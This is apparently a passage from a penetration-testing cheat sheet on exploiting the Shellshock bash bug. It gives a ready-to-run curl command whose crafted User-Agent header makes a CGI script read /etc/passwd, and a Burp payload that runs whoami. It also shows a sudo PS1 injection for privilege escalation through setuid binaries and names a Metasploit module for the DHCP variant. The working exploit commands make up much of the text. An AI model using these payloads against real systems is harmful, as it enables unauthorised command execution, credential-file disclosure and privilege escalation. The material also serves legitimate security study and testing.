 #### CGI-BIN Shellshock

To understand shellshock few blogs can be referred such as [ShellShocked – A quick demo of how easy it is to exploit](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/) , [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

```
curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat
```

alternative

```
In the user agent in burp

() { :; }; echo; echo; /usr/bin/whoami
```





It is important to understand what is cgi-bin which can be read from [Creating CGI Programs with Bash: Getting Started](http://www.team2053.org/docs/bashcgi/gettingstarted.html). Also the most important lines in this file are:

```
echo "Content-type: text/html"
echo ""
```

These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn’t understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling \(directly or indirectly\) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

```
sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary
```

Shellshock also affects DHCP as mentioned [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/). There’s a metasploit module named “Dhclient Bash Environment Variable Injection \(Shellshock\)” for this.

